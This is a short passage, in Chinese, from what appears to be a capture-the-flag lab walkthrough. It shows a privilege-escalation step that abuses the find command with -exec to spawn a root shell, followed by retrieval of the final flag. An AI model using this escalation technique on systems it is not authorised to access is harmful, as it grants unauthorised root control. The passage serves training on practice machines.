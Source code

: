 - 看到有find命令

![0a647e18-e436-4936-9972-7e6ea1c250e6](https://img.crzliang.cn/img/0a647e18-e436-4936-9972-7e6ea1c250e6.png)

- 利用命令提权

```plain
find root -exec '/bin/sh' \；
```

![88c75a97-b9e6-4b1a-a408-a014dae31e69](https://img.crzliang.cn/img/88c75a97-b9e6-4b1a-a408-a014dae31e69.png)

- 进到根目录下找到最后的flag

![b937d42a-7535-4c8b-8c4e-8d2948b33f56](https://img.crzliang.cn/img/b937d42a-7535-4c8b-8c4e-8d2948b33f56.png)

**flag5：**

> **Well done!!!!**
>
> **Hopefully you've enjoyed this and learned some new skills.**
>
> **You can let me know what you thought of this little journey**
> **by contacting me via Twitter -** [**@DCAU7** ]() 